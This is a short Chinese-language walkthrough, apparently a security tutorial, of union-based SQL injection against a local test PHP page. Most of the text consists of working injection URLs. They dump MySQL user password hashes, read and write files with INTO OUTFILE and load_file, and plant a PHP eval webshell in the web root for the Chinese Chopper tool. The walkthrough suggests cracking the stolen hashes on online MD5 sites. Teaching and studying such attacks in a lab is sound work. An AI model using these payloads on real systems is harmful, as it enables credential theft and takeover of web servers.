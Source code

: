 `http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(user,authentication_string) from mysql.user --` 可以查出 MySQL  用户的密码，在 linux 下authentication_string 为 password

> 其中密码是加密过的，可以找在线 md5 解密网站解密出来

### 写入 webshell

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,"test" into outfile "D:\\test.txt" --`  测试能否写入文件

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,load_file("D:\\test.txt") --`  测试文件是否写入

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,"<?php @eval($_POST['pass'])?>" into outfile "C:\\apache24\\htdocs\\test\\caidao.php" --`  写入 webshell ，成功连入菜刀

![20160904221012.png](/images/20160904221012.png)
